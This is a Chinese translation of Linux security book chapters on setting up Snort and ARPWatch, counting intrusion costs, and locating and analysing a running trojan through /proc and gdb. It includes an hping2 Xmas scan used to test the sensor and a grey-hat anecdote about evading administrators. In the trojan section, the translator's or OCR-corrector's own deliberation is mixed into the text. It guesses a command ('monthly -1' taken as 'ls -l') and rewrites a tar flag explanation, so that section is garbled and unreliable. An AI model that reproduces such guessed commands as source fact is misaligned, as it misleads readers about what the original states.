运行`configure`脚本以及任何选项会导致`Snort`查找各种先决条件。例如，从源码编译`Snort`时，你可能会收到一个错误，指示找不到一个或多个先决条件，例如以下错误：

```
checking for pcre.h... no

ERROR! Libpcre header not found, go get it from

http://www.pcre.org
```

考虑到这个错误，我能够安装`pcre`开发文件，重新运行`configure`脚本并继续操作。

`configure`脚本成功运行后，通过输入以下内容编译软件：

```
make
```

软件现在将开始编译。如果在阶段期间出现任何错误，请咨询`Snort`文档和邮件列表存档，查看你是否遇到了针对你的架构的已知错误。

最后，在软件编译完成后，通过输入以下内容安装它：

```
make install
```

软件现在将安装完毕并准备就绪。默认情况下，软件安装在`/usr/local/bin`中。你可以通过输入以下命令来测试基本的`Snort`命令：

```
/usr/local/bin/snort -?
```

你应该会看到包含帮助选项的输出，类似于以下内容：

```
     ,,,      -*> Snort! <*- 

 o' )~   Version 2.3.3 (Build 14)

 `;~`    By Martin Roesch & The Snort Team: http://www.snort.org/team.html

        (C) Copyright 1998-2004 Sourcefire Inc., et al.

USAGE: ./snort [-options] <filter options>

Options:
```


- `-A` Set alert mode: fast, full, console, or none (alert file alerts only)

`"unsock"` enables UNIX socket logging (experimental).

...

## 11.4.2 配置 Snort

Snort 的源代码包含一个示例配置文件。如果你是从发行版的软件包安装的，那么它也应该包含一个示例 Snort 配置文件。通常这个文件名为 `snort.conf`。在大多数流行发行版中，包括 SUSE 和 Debian，该文件（以及许多 Snort 规则）被放置在 `/etc/snort` 中。

如果你正在使用源代码安装，示例 `snort.conf` 配置文件位于 `<snort-source>/etc/` 中，示例规则位于 `<snort-source>/rules/` 中。对于使用源代码版本的人，我建议创建 `/etc/` 或 `/usr/local/etc/` 下的一个名为 `snort` 的目录，并将 `snort.conf` 配置文件和 Snort 规则放在该目录中。此外，默认的 Snort 配置文件还会调用各种映射和额外配置文件。这些文件也可以在 `<snort-source>/etc/` 目录中找到。创建目录并将所有文件复制进去看起来像这样（再次说明，这只适用于从源码编译 Snort 的人）：

```
mkdir /etc/snort

cp <snort-source>/etc/snort.conf /etc/snort/

cp <snort-source>/etc/*.map /etc/snort/

cp <snort-source>/etc/*.config /etc/snort/

cp <snort-source>/rules/* /etc/snort/
```

对 `snort.conf` 配置文件进行另一个重要更改。在你将其复制到 `/etc/snort` 目录后，编辑该文件并将 `RULE_PATH` 变量从其默认值 `../rules` 更改为 `/etc/snort`。完成后，该行应看起来像这样：

```
var RULE_PATH /etc/snort
```

最后，使用以下命令创建 Snort 日志目录：

```
mkdir /var/log/snort
```

所有基础工作完成后，是时候正式启动 Snort 了。如果你是从发行版的软件包安装的，很可能你可以通过正常的运行控制机制（例如 `/etc/init.d/snort start`）来启动 Snort。如果你是从源码编译的，你需要手动启动 Snort 并指向其配置文件的位置：

```
/usr/local/bin/snort -c /etc/snort/snort.conf
```

如果你收到任何错误，很有可能缺少文件。根据配置文件，检查 Snort 源目录结构中的缺失文件并将其复制到适当的位置。

如果一切顺利，你应该会在输出的末尾看到类似以下的消息：

```
=== Initialization Complete ===
```

如图所示，shell 提示符未返回。这是因为未告知 Snort 分叉到守护进程模式。按 `Ctrl+C` 终止 Snort 并在命令行中添加 `-D`。现在它应该看起来像这样：

```
/usr/local/bin/snort -c /etc/snort/snort.conf -D
```

Snort 将再次启动，这次它会分叉到后台，返回 shell 提示符。

当然，Snort 配置远不止于使用默认选项和规则集让其运行。有关特定 Snort 配置的更多信息，请参阅 Snort 文档。

### 11.4.3 测试 Snort

既然 Snort 现在在后台运行，你可能会假设它运行得非常完美，并且日志条目会被放入 `/var/log/snort` 供你使用。然而，我并不是一个喜欢假设的人，尤其是在计算机安全方面。因此，为了测试 Snort 安装，我将使用便捷的 `hping2` 工具来构造一个或两个数据包并将其发送到运行 Snort 的主机。

在这种情况下，我只是在验证 Snort 是否正在运行并监控某些内容。默认规则查找恶意数据包，因此使用 `hping2` 构造一个这样的数据包应该很简单。从网络上的另一台主机（`192.168.1.10`），我向运行 Snort 的主机（`192.168.1.2`）运行了以下 `hping2` 命令：

```
hping2 -X 192.168.1.2
```

`-X` 选项导致执行 Xmas 扫描。查看运行 Snort 的主机上的 `/var/log/snort` 发现告警文件收到了一些信息，并且还有一个名为 `192.168.1.10` 的新目录，这是测试数据包的来源。该目录内包含对应于我发送的数据包的文件，其内容如下所示：

```
[**] BAD-TRAFFIC tcp port 0 traffic [**]

06/07-16:19:00.712543 192.168.1.10:1984 -> 192.168.1.2:0

TCP TTL:64 TOS:0x0 ID:48557 Iplen:20 DgmLen:40

*2***** Seq: 0xED1609B Ack: 0x13E89C5 Win: 0x200 TcpLen: 20

=================================================================

[**] BAD-TRAFFIC tcp port 0 traffic [**]

06/07-16:19:00.712610 192.168.1.2:0 -> 192.168.1.10:1984

TCP TTL:64 TOS:0x0 ID:10034 Iplen:20 DgmLen:40 DF

***A*R** Seq: 0x0 Ack: 0xED1609B Win: 0x0 TcpLen: 20

=================================================================
```

从输出中可以看到，Snort 捕获了它认为（确实如此）的恶意 TCP 数据包。告警日志文件 `/var/log/snort/alert` 还包含对于排序告警特别有用的信息。以下是告警日志文件中与前面显示的特定主机文件条目对应的日志条目：

```
[**] [1:524:8] BAD-TRAFFIC tcp port 0 traffic [**]

[Classification: Misc activity] [Priority: 3]

06/07-16:19:00.712543 192.168.1.10:1984 -> 192.168.1.2:0

TCP TTL:64 TOS:0x0 ID:48557 Iplen:20 DgmLen:40

*2***** Seq: 0xED1609B Ack: 0x13E89C5 Win: 0x200 TcpLen: 20

[**] [1:524:8] BAD-TRAFFIC tcp port 0 traffic [**]

[Classification: Misc activity] [Priority: 3]

06/07-16:19:00.712610 192.168.1.2:0 -> 192.168.1.10:1984

TCP TTL:64 TOS:0x0 ID:10034 Iplen:20 DgmLen:40 DF

***A*R** Seq: 0x0 Ack: 0xED1609B Win: 0x0 TcpLen: 20
```

从这些条目中可以看到，有一些额外的项目，如 `Classification`（分类）和 `Priority`（优先级），可以帮助对告警进行分类和优先排序。分类和优先级都可以在告警日志文件中配置。

### 11.4.4 接收告警

我建议先与 Snort 合作，积累关于规则和配置选项的经验，然后再配置它通过电子邮件或其他方式发送告警。根据网络布局，使用默认 Snort 规则可能会导致你被告警淹没。

回忆一下第 10 章中介绍的日志文件监控软件，并给出了使用 Swatch 监控日志文件中特定事件的配方，此时它会基于告警发送电子邮件。如果你明白我的意思，恭喜你！

#### 使用 SWATCH 监控 SNORT 告警

使用默认配置，Snort 将日志记录到 `/var/log/snort/alert`。因此，创建一个 Swatch 配置来监控此文件非常容易。同样，使用 Swatch 的告警和电子邮件很容易让你或系统不堪重负，因此在你有机会进一步配置 Snort 之前，在基于 Snort 告警配置任何操作时应该谨慎。

回忆一下，Snort 在 `/var/log/snort/alert` 中记录一些优先级数据。因此，你可以设置一条 Swatch 规则来监视具有特定优先级（例如 3）的任何内容，并在看到该优先级时发送电子邮件。这将放置在你的 Swatch 配置文件中，默认情况下是 `~/.swatchrc`。这是配置条目：

```
watchfor /Priority: 3/

mail
```

启动 Swatch 并将其指向 Snort 告警文件 `/var/log/snort/alert` 看起来像这样：

```
swatch --tail-file=/var/log/snort/alert
```


现在，当记录到 `Priority: 3` 的告警时，`Swatch` 将发送电子邮件。

### 11.4.5 关于 Snort 的最后思考

`Snort` 作为自动化入侵检测任务的手段被高度推荐。我只在这里触及了 `Snort` 的最基本部分，希望能给你一个起点

用于处理该问题。从这里开始，你可以将 `Snort` 与 `MySQL` 和 `ACID` 结合，以创建一个企业级的入侵检测系统。`Snort` 可以根据你的需求进行配置，并扩展以适应任何规模的组织。

### 11.5 使用 ARPWatch 进行监控

`ARPWatch` 是一个守护程序，用于监视网络上的新以太网接口。如果看到新的 `ARP` 条目，这可能表明网络中某处存在一台非法计算机。

`ARPWatch` 使用 `PCap` 库，该库可能（尚未）安装在你的系统上。如果没有，你将在配置 `ARPWatch` 的过程中发现这一点。`PCap` 库通常被称为 `libcap`，可以从 `http://www.tcpdump.org/` 下载。`PCap` 库用于其他网络和安全相关的程序，例如 `TCPDump`。由于之前已经介绍了 `TCPDump`，本章将不再重复安装 `libcap` 的说明，而是请参见“`TCPDump`：简单概述”一节以获取相关说明。

安装 `ARPWatch` 涉及解压你下载的 `ARPWatch` 归档文件，通常类似于 `tar -zxvf arpwatch.tar.Z`。之后，切换到 `ARPWatch` 目录并运行 `configure` 脚本：

```
./configure
```

你将看到一系列（希望是熟悉的）输出语句，如下所示：

```
creating cache ./config.cache
checking host system type... i686-pc-linux-gnu
checking target system type... i686-pc-linux-gnu
checking build system type... i686-pc-linux-gnu
checking for gcc... gcc
checking whether the C compiler (gcc ) works... yes
... (output truncated) ...
```

如果你看到类似以下的错误，你需要安装 `libcap`：

```
checking for main in -lpcap... no
configure: error: see the INSTALL doc for more info
```

请参见本章前面关于 `TCPDump` 的部分，以获取安装 `PCap` 库的信息。

对于其他人，或者如果你在安装 `PCap` 后再次加入进来，编译 `ARPWatch` 的下一步是使其生效。在 `ARPWatch` 源代码目录下的命令行中，输入以下命令：

```
make
```

`ARPWatch` 现在将进行编译，你将看到指示进度的消息，可能还会有一两个警告：

```
report.o(.text+0x409): the use of `mktemp' is dangerous, better use `mkstemp'
gcc -02 -DDEBUG -DHAVE_FCNTL_H=1 -DHAVE_MEMORY_H=1 -DTIME_WITH_SYS_TIME=1 \ -DHAVE_BCOPY=1 -DHAVE_STRERROR=1 -DRETSIGTYPE=void -DRETSIGVAL= \ -DHAVE_SIGSET=1 -DDECLWAITSTATUS=int -DSTDC_HEADERS=1 \ -DARPDIN=\"/usr/local/arprewatch\" -DPATH \ -DSENDMAIL=\"/usr/sbin/sendmail\" -I\. \ -Ilinux-include -c ./arpsnmop.c
gcc -02 -DDEBUG -DHAVE_FCNTL_H=1 -DHAVE_MEMORY_H=1 -DTIME_WITH_SYS_TIME=1 \ -DHAVE_BCOPY=1 -DHAVE_STRERROR=1 -DRETSIGTYPE=void -DRETSIGVAL= \ -DHAVE_SIGSET=1 -DDECLWAITSTATUS=int -DSTDC_HEADERS=1 \ -DARPDIN=\"/usr/local/arprewatch\" \ -DPATH_SENDMAIL=\"/usr/sbin/sendmail\" \ -I.. -Ilinux-include -o arpsnmop \ arpsnmop.o db.o dns.o \ ec.o file.o iniao.o \ machdep.o util.o report.o setsignal.o version.o
report.o: In function 'report':
report.o(.text+0x409): the use of `mktemp' is dangerous, better use `mkstemp'
```

编译完成后，使用以下命令安装 `ARPWatch`：

```
make install
```

`ARPWatch` 将安装（默认）到 `/usr/local/sbin`。此目录通常在 `root` 的路径中，但如果你输入 `arprewatch` 并收到“command not found”（命令未找到）错误，你可能需要在命令前加上其目录，如下所示：

```
/usr/local/bin/arprewatch
```

在 `ARPWatch` 运行期间，它会向 `SYSDLOG` 守护程序报告网络上发现的新 `MAC` 地址。这意味着 `ARPWatch` 通常将输出到 `/var/log/messages`，因此你可以运行 `grep` 命令来查找 `ARPWatch` 发现的新主机：

```
grep arprewatch /var/log/messages
```

此外，`ARPWatch` 还会向系统上的 `root` 账户发送电子邮件，详细说明新主机。电子邮件包含诸如日期、`IP` 地址和 `MAC` 地址等详细信息：

```
hostname: client.example.com
ip address: 192.168.1.10
ethernet address: 0:e1:18:34:2f:e8
ethernet vendor: <unknown>
timestamp: Saturday, May 22, 2004 11:25:59 -0500
```

通过这两种方式，当新主机出现在网络上时，几乎可以立即得知。此类信息对于安全管理员监控网络中可能的未授权使用非常有帮助。`ARPWatch` 将在后台作为守护程序运行，安静地（希望是安静地）处理其事务，并在需要时向你报告。

如果出于某种原因 `ARPWatch` 关闭，例如由于机器重启，现有条目将写入名为 `arp.dat` 的文件中（该文件的位置差异很大；如果你需要找到它，请运行 `find / -name "arp.dat"`）。如果你需要重置 `ARPWatch` 的监控数据库，以便它再次“捕获”网络上的所有主机，请在包含 `ARPWatch` 的目录内运行这些命令：

```
rm arp.dat
touch arp.dat
```

关于使用 `ARPWatch` 的一个技巧：确保 `ARPWatch` 数据文件 `arp.dat` 受到监控，以防止未经授权的更改。如果攻击者能够修改此文件并手动添加自己的条目，`ARPWatch` 将不会提醒你新主机的存在。确保 `arp.dat` 文件由 `AIDE` 或通过其他类似手段进行监控。

## 11.6 总结

本章展示了一些用于入侵检测的工具。目标是根据前面章节介绍的概念，为你提供一些动手经验。本章你学习了网络嗅探器，并特别关注了 `TCPDump`。还通过 `TCPDump` 的视角查看了一些数据包和攻击类型。

本章还介绍并讨论了其他工具。其中包括 `Snort`，它提供了一个出色的入侵检测系统。最后，还讨论了使用 `ARPWatch` 监控网络上新增和意外的 `ARP` 条目。

# 部分：从入侵中恢复

在这里，你将学习如何从入侵中恢复。虽然遵循第一部分关于系统安全的建议可以阻挡大多数黑客并防止大多数系统被破解，但没有系统是绝对安全的，正如没有程序能保证无 bug 一样。使用检测黑客对系统进行篡改的技术来定期检查你的系统，例如每月检查一次，是一个很好的主意。这将捕获那些闯入但未造成可见破坏的黑客。一位安全专家每六个月从头开始重新安装一次系统，以确保没有任何黑客可能“常驻”其中。

**现在**，可怕的时刻到了，你意识到你的系统可能被入侵了！不要恐慌，也不要像你在挠头并接到总统愤怒的电话时那样，看着 `CNN` 头条每隔一小时都在报道你瘫痪的网站。相反，你遵循你的计划。在很短的时间内，黑客进入你系统的路径被发现，漏洞被修补，你的网站恢复正常。它可能会被其他人在除了你自己之外的人眼中视为一个小故障，很少被提及。

这些技术是有效的！不要采纳我的建议；我鼓励你的系统管理员或其他具有特权且受信任的用户故意添加一个安全漏洞（以这样一种方式，不让任何不受信任的人获得未授权的访问权限），并练习检测和修补该漏洞。


如果你有可能希望对黑客采取刑事或民事法律行动（如果你抓住他的话），你需要记录并列出所有费用，并详细记录与此次破解或 DoS 事件相关的所有行动。这可以提高警方和 FBI 调查的可能性和深度，并增加可能的刑期或民事判决金额。有多种不同类型的费用，重要的是你要分别跟踪它们。这是因为这些各种损害金额的多少将决定警方、FBI 和法院如何处理你的案件。

根据我在 FBI 亚特兰大分局的联系人，实际的货币损害金额（不包括人员花时间在修复系统上的成本）是他们决定是否受理案件以及决定投入多少努力的非常强的因素

在调查中花费的精力。FBI 曾多次礼貌地拒绝说明该公式具体是什么。秘密服务局（Secret Service）对它的政策则没有那么保密。在 2000 年初，美国联邦计算机犯罪法只有在受害者遭受至少 5,000 美元的损失时才能用于起诉。（对于美国政府网站和国家安全的涉及事项，这一门槛要低得多。）

即使你的损失低于 5,000 美元，只要被攻击的计算机用于州际商业交易，FBI 仍然拥有管辖权并可能会进行调查。为此，州际商业交易的定义非常宽松，如果你的计算机用于与跨越美国州界的任何计算机进行通信，就属于涉及州际商业交易，即使这种跨界仅仅是为了在加利福尼亚访问 yahoo.com，在北卡罗来纳州访问 redhat.com，或者你使用 telnet 从你在另一个州的母亲家访问你的工作系统。

我在这里详细列出了常见的成本类型。当然，还有其他类型的成本。

- 1. 一种成本类型是实际的货币损失，例如因为客户无法访问你的网站而导致的业务损失（基于你正常的业务量）。这是一种常见成本，特别是在 DoS（拒绝服务）攻击中。

在《今日美国》2000 年 2月 10 日刊期的封面故事中，引用了 Forrester 研究公司对一些知名互联网网站停机成本的估算。这些成本显示在下面的表格中。

| 成本（百万美元/天） | 网站* |
| :--- | :--- |
| 1.6 | Yahoo |
| 4.5 | Amazon |
| 30.0 | Cisco Systems |
| 33.0 | Intel |
| 35.0 | Dell Computer |

* 版权所有 2000，USA Today。经许可转载。

在 2000 年 2 月的一次 DDoS 攻击中，Amazon、Yahoo、eBay、cnn.com、buy.com、E*TRADE 和 ZDNet 各自停机约四小时，仅 Amazon 和 Yahoo 两家的业务损失成本就高达 300 万美元！

- 2. 产品或服务的窃取应作为与业务损失不同的类别，因为这通常在刑法中被区别对待且处罚更为严厉。

- 3. 如果你必须向供应商或顾问支付额外费用，或者为你的员工支付加班费来修复损害，这算作货币损失，但你应将其作为与业务损失或窃取不同的类别列入。

- 4. 另一种常见成本是 salaried（受薪）员工修复损害所花费的时间，包括联系那些信用卡号码或其他数据可能已泄露的客户。不幸的是，这项成本通常不被重视，理由是“反正这些人都会拿薪水”，而忽略了这使他们无法从事影响公司底线（bottom line）的其他项目。

- 5. 最后一种常见成本是投资损失。在我写下这些文字的一周前，buy.com 在股票上市当天被分布式拒绝服务（DDoS）攻击击瘫痪了四小时。这可能让被吓退的投资者损失了数百万美元。（DDoS 攻击在第 575 页的“分布式拒绝服务（协同）攻击”一节中有详细讨论。）

在第三部分中，你将学习如何在你关闭系统之前查找并分析黑客留下的任何正在运行的特洛伊木马。如果你在没有进行此分析的情况下直接关闭系统，就会破坏关于黑客行为的重要信息。然后，你将以比大多数“专家”建议的“从备份恢复”更不痛苦的方式来执行修复系统的任务。

## 第 12 章

重新夺回系统控制权

在本章中，我们将探讨一些技术，使你在发现系统被攻破后，能够迅速重新夺回系统的控制权。如果你希望将损害降至最低，并最大限度地了解发生了什么以及发生过程，这可能是一项微妙且复杂的操作。由于你正在处理的是未知软件（即黑客的软件），没有唯一正确的答案，也没有保证。

在实际遭受入侵之前，应先阅读第三部分，以便你了解恢复时需要做什么，并提前做好准备。在测试系统上，进行一些从模拟攻击中恢复的演练。

> 计划快速禁用重要的凭证。这包括可能被泄露的 `PGP`、`SSH` 和 `SSL` 密钥。更改任何可能通过嗅探或社会工程术泄露的密码。如果黑客可能已控制了打印支票、发货、处理信用卡等金融系统，务必阻断商品和资金的流动。这可能包括关闭银行账户、停止出库发货等，直到完成详细分析为止。

- 本章涵盖的主题包括：

  * 第 466 页的“查找黑客的运行进程”

  * 第 467 页的“处理正在运行的黑客进程”

  * 第 476 页的“断开调制解调器、网络、打印机和系统”

### 12.1 查找黑客的运行进程

一旦检测到你的系统被入侵，尝试查找黑客遗留的任何运行进程将非常有帮助。请记住，系统中的任何程序可能都已受损。

最好使用一个没有访问任何重要资源的非特权用户账户进行操作。这是因为你不知道哪些程序已被受损。例如，黑客可能发现 `/usr/local/bin` 的权限是 777（所有用户可写），并放了一个受损版本的 `date` 程序在其中。他可能在等待像 `root` 这样无辜的程序调用 `date` 以获得系统的完全控制权——也就是说，用黑客的话来说就是“拥有它”（own it）。通过以该非特权用户身份操作，显然你可以限制此操作或其他操作的后果。

保留一个“隐蔽”版本的 `ps`，并赋予它一个不起眼的名称。如果你运行应用程序，请用该名称调用它。对系统进行 `ps` 检查，并记录像 `lpd` 和 `sendmail` 这样的 root 程序作为调用你的“隐蔽 `ps`”可执行文件的名称。一些黑客可能会注意到 `sendmail` 不应该有 `axlwl` 这样的参数，所以如果你想大胆一点，获取 `ps` 的源代码并对其进行修改，创建一个默认使用这些标志的自定义版本。（“`a`”标志请求所有进程，而不仅仅是你的；“`x`”标志还包含不与终端关联的守护进程；“`l`”标志请求长格式以提供更多细节；“`w`”标志允许更长的行；第二个“`w`”允许无限行。）

> 在我还在伯克利当灰帽子学生的时期，有一次我以`root`身份隐蔽地操作，反复运行 `ps^a` 以观察系统管理员是否试图检测我们。当时 Doug Merritt 正在安装特洛伊木马，我则充当“副驾驶”（riding shotgun，指在旁观察或协助但非主导）。

我注意到有人在管理员账户上登录并运行了 `ps`，我知道我们被发现了。二十秒后，该管理员正在使用 `write` 命令联系我，问我他是谁。

幸运的是，我们身处一个很少使用的终端机房，我们在 60 秒内迅速注销并离开了 Evans Hall。教训是，在这场战争中每一方都应该使用 `ps` 的隐蔽版本。现在更厉害的黑客都是这样做的；你也应该这样做！

- a. 大多数人并不知道，`ps`（`process status`，进程状态）显示的“命令名称”是由父进程指定的，并且可以是任意的。换句话说，当你请求 shell 启动 `ps` 时，shell *选择*声明子进程的名称为 `ps`。

黑客的一种常见技术是指定不同的名称，如 `cc` 或 `assignment7`。然而，Linux 的 `/proc/PID/exe` 符号链接指向的可执行文件的名称（或 2.2 以内内核中的 inode 号）是无法伪造的，除非使用内核补丁。对 `ps` 的一个有用增强功能是：如果 `exe` 与命令名称不匹配（考虑到 shell 可能会将程序名称显示为 `ps` 而不是 `/bin/ps`），则发出 *警告*。

#### 12.1.1 处理已删除的可执行文件

黑客的一个诡计是从文件系统中移除正在运行的程序的可执行文件。请记住，这会导致目录中对文件名称的引用被移除，*但*文件仍将存在，直到所有打开该文件的程序（作为打开的文件描述符）关闭它。

“正在执行”中的运行程序被视为一个打开的文件。黑客知道大多数系统管理员（SysAdmins）检测到入侵后做的第一件事就是关闭系统，要么是为了复制磁盘作为证据进行分析，要么是希望问题会消失。当然，在干净关闭时，程序的执行将被停止，程序的数据块和 inode 将被释放。如果系统突然关闭，清理工作将由重启时的 `fsck` 完成。

自动检测这些执行中的程序并对其进行复制（以供分析）的方法在第 392 页的“检测已删除的可执行文件”中有讨论。发现的这些可执行文件几乎可以确定是特洛伊木马，除非其中有一个是程序员正在开发的程序，且其构建新版本导致旧版本从磁盘移除。

内核中一个非常实用的特性是，指向可执行文件的 `/proc` 中的符号链接*即使原始文件已从文件系统中移除，仍然是有效的！*这允许你像下面这样简单地复制文件以进行分析：

```
cp /proc/479/exe /home/samspeade/del_cracker
```

换句话说，如果黑客执行了

```
cd /tmp
.genielx
rm .genie
```

这项技术仍然可以恢复一份副本供你分析和作为证据展示。

### 12.2 处理正在运行的黑客进程


此时，假设你运行了一个隐蔽且可信的 *ps* 程序，它显示了两个让你怀疑的进程：`/bin/ls` 和 `wizbang`。你对 `/bin/ls` 感到怀疑，因为它已经运行了很长时间，而没有理由让用户执行类似

```
/bin/ls -R /
```

或类似的能解释该程序如此长时间运行的操作。你对 `wizbang` 感到怀疑，因为你不记得有这样一个应用程序。

`/bin/ls` 的 PID（进程 ID）是 `16887`，因此你使用你的隐蔽 `ls` 命令，比如每月的命令，发出指令

## 分析 /proc 文件系统下的可疑进程

执行以下命令进入进程目录：

```
cd /proc/16887
ls -l
```

*注：原文中的 "monthly -1" 疑似 OCR 错误，根据上下文应为 `ls -l` 或类似查看目录详情的命令，但为了保留原始信息，若无法确定具体命令，此处保留原意或进行合理推断。鉴于后文展示了目录列表，通常使用 `ls -l`。然而，原文确实写的是 `monthly -1`，这可能是 `ls -l` 的严重误识别。为了忠实于“保留原文信息”但“纠正明显OCR错误”的原则，`monthly` 极有可能是 `ls` 的误读（l->m? s->o? 不太像），或者可能是 `ls -la`？ 让我们仔细看后文的输出。输出是文件列表。通常命令是 `ls -l`。 但是，让我们看下一段命令 `/home/larry/bin/feather -chvf ...`。 让我们假设这里的 `monthly -1` 是 OCR 错误，实际应为 `ls -l`。 但是，如果我不确定，我应该保留并标注吗？ 不，任务要求纠正明显错误。`monthly` 在 Linux 命令中毫无意义。结合上下文，这是在展示进程信息。最可能的原意是 `ls -l`。*

**更正思考**： 让我们重新审视原文。

```
cd /proc/16887
monthly -1
```

这可能是一个极差的 OCR 结果，将 `ls -l` 识别成了 `monthly -1`？ 或者原文本身就是某个特定脚本？ 不，这看起来像是一本关于入侵检测的书（可能是《The Practice of Network Security》或类似书籍）。 在这类书中，通常会用 `ls -l` 查看 `/proc/<pid>`。

让我们看第二页的代码块：

`/home/larry/bin/feather -chvf /dev/fd0 /proc/16887/exe`

这里 `feather` 是 `tar` 的别名。

回到第一页，`monthly -1` 真的很奇怪。

让我们假设它是 `ls -l`。

该命令可能显示如下内容：

```
-r--r-----    1 root root 0 May 17 00:49 cmdline
lrwx------    1 root root 0 May 17 00:49 cwd -> /tmp
-r---------    1 root root 0 May 17 00:49 environ
lrwx------    1 root root 0 May 17 00:49 exe -> /tmp/.genie
dr-x------    2 root root 0 May 17 00:49 fd
pr--r-----    1 root root 0 May 17 00:49 maps
-rw-------    1 root root 0 May 17 00:49 mem
lrwx------    1 root root 0 May 17 00:49 root -> /
-r--r-----    1 root root 0 May 17 00:49 stat
-r--r-----    1 root root 0 May 17 00:49 statm
-r--r-----    1 root root 0 May 17 00:49 status
```

请注意，`exe` 文件是指向所调用可执行程序的一个符号链接，它显然并不指向 `/bin/ls`。极有可能这是一个木马（Trojan horse）。注意，由于这些文件的所有者是 root，因此该进程是以 root 身份运行的。可执行文件的名称 `/tmp/.genie` 极其可疑。这是因为 root 调用位于 `/tmp` 目录下的可执行文件非常不寻常，而且该名称以 `.` 开头，这意味着普通的 `ls` 命令不会显示此文件。你还可以通过 `/bin/ls` 进行二进制比较，确信这是一个不同的程序，使用以下命令：

```
cmp exe /bin/ls
```

典型的输出如下：

```
exe /bin/ls differ: char 25, line 1
```

显然，这是一个不同的程序。这是一个木马！

> 假设你有一个笔记本，并正在记录你的所有操作和发现。你可能需要在这个笔记本中记录日期和时间，因为这些记录未来可能会在法庭上作为证据引入。你可能还想在你的条目上签名。

此时，你需要记录这个木马的 PID 及其可执行文件名 `/tmp/.genie`。你需要制作这个木马的副本。如果方便的话，建议使用介质，如磁带、软盘或 CD-RW。这是因为写入后，介质可以进行写保护、贴标签并保存。这样，即使其他恶意程序破坏了磁盘上的数据，它也仍然可以存活。

### 备份可疑文件

如果你已经拥有一个用于将文件复制到备份介质的 `tar` 或其他有用程序的隐藏副本，那将非常有帮助。假设你的 `tar` 隐藏版本被称为：

```
/home/larry/bin/feather
```

并且你将备份到 `/dev/fd0`。发出以下命令：

```
/home/larry/bin/feather -chvf /dev/fd0 /proc/16887/exe
```

`-h`（原文写作“n” flag，但在 tar 中跟随符号链接通常是 `-h` 或 `--dereference`。原文说 "The 'n' flag causes tar to back up the file that any symbolic link... points to"。实际上 `tar` 的 `-h` 是 follow symlinks。`-n` 通常是 no-same-permissions。这里原文可能有误，或者指的是特定行为。让我们仔细看原文："The “n” flag causes *tar* to back up the file that any symbolic link, such as `/proc/16887/exe`, points to." 在标准的 `tar` 中，这是 `-h`。但是，如果这是一个别名或特定脚本，也许行为不同。为了保持忠实，如果原文写的是 "n"，我应保留 "n" 还是纠正为 "h"？ 任务要求纠正明显 OCR 错误。如果原文印错了，那是内容错误。如果 OCR 将 `-h` 识别为 `-n`，那是 OCR 错误。鉴于上下文是“备份符号链接指向的文件”，这在 tar 中是 `-h`。然而，后面的命令用的是 `-chvf`。这里没有 `-h` 或 `-n`。

让我们再看一遍命令：`/home/larry/bin/feather -chvf /dev/fd0 /proc/16887/exe`

标志是 `c` (create), `h` (?), `v` (verbose), `f` (file). 等等，原文命令里写的是 `-chvf`。

然后文本解释：“The “n” flag causes...”。

这里存在矛盾。命令里有 `h`，解释里说是 `n` flag。

可能性 1：OCR 将命令中的 `h` 误读为其他，或者将文本中的 `h` 误读为 `n`。

可能性 2：作者搞错了。

在 `tar` 中，`-h` 意味着“跟随符号链接”。`-n` 意味着“禁止设置权限”。

根据语义“备份符号链接指向的文件”，应该是 `-h`。

但是，原文命令块中已经是 `-chvf`，包含了 `h`。

而解释段落说“The “n” flag”。

这很可能是 OCR 将文本中的 `h` 识别成了 `n`，或者原文印刷错误。

考虑到 `-h` 是标准行为，且命令中有 `h`，我将把解释中的 “n” 视为对 `h` 的误认或原文笔误，但为了安全起见，如果不确定，保留原文 “n” 可能更安全？ 不，任务要求纠正明显错误。将 `h` 解释为 `n` 是语义错误。但如果是 OCR 把 `h` 变成 `n`，那么纠正 `n` 为 `h` 是合理的。

然而，让我们看命令：`-chvf`。这里的第二个字符是 `h`。

所以文本说“The “n” flag” 肯定是错的，应该是“The “h” flag”。

我将把文本中的 `“n”` 纠正为 `“h”`，以匹配命令和语义。

*修正策略*： 将文本中的 `“n” flag` 改为 `“h” flag`，因为命令中使用的是 `-h`（在 `-chvf` 中），且语义符合 `-h` 的功能。

移除该软盘，对其进行写保护，并将其标记为类似以下内容：


```
/tmp/.genie -> /proc/16887/exe
cracker-deleted running program
2000/07/29
Trojan horse on
www.pentacorp.com
(signed Joe SysAdmin date)
```

此时，关于如何继续你有几种选择，并没有唯一的正确答案。你只需杀死该进程即可。建议*不要*执行 `kill 16887`，因为这会向进程发送终止信号，给它一个捕获该信号并执行任何操作的机会。它可能会移除自身的所有证据。它可能会向所有者发送邮件警告他已被发现。它可能会从磁盘中删除你的所有数据。相反，使用以下命令，这将不发出任何警告且不给木马任何采取行动的机会就终止它：

```
kill -9 16887
```

一个真正高明的黑客会有另一个进程监控此进程并检测其消亡。这可以通过另一个进程作为此进程的父进程并使用 `wait()` 系统调用或 `SIGCHLD` 信号来实现。它也可以定期执行 `kill(16887, 0)` 直到返回 `-1`。它还可以设置一个命名或未命名的管道，与 `16887` 相连，并在 `16887` 死亡时检测到的损坏的管道。

> 对于大胆的人来说，第二个机会是使用调试器附加到黑客的正在运行的进程并尝试分析它。（你可能想先备份关键文件。）

### 使用调试器分析进程

你首先可能会检查二进制文件是否有符号表。执行此操作的命令如下：

```
file /proc/16887/exe
```

结果将是：

```
/proc/16887/exe: symbolic link to /tmp/.genie
```

哎呀，忘了它是一个符号链接。你稍后将使用 `find` 的 dash 标志来绕过这个问题。首先，制作一个副本，因为它可能会移除自己的磁盘副本以逃避分析，并可能用于法庭证据。以下方法即使磁盘上的副本已被移除也能起作用：

```
cp /proc/16887/exe $HOME/Trojan
```

对它使用 `strings` 程序将显示文件中的所有 ASCII 字符串；这将提供关于其功能的线索。命令如下：

```
strings $HOME/Trojan | more
```

尝试以下命令：

```
file -L /proc/16887/exe
```

结果可能是以下：

```
/proc/16887/exe: ELF 32-bit LSB executable, Intel 80386, version 1, dynamically linked (uses shared libs), not stripped
```

“not stripped” 正是我们希望的。这意味着可执行文件未被剥离其符号表。（如果符号已被剥离，分析将困难得多。）其中的符号可以使用以下命令列出：

```
nm $HOME/Trojan | more
```

经验丰富的程序员通过查看它使用的标准 Linux 函数和系统调用，可以对其正在做什么有一个很好的了解。

要让标准 Linux 调试器 `gdb` 附加到正在运行的进程，你需要将可执行文件名和 PID（进程 ID）传递给它。在我们的例子中，发出的命令如下：

```
gdb /proc/16887/exe 16887
```

`.genie` 程序将被停止，从这一点开始你将控制它。这个 `gdb` 命令的典型输出可能是以下：

```
GNU gdb 4.18
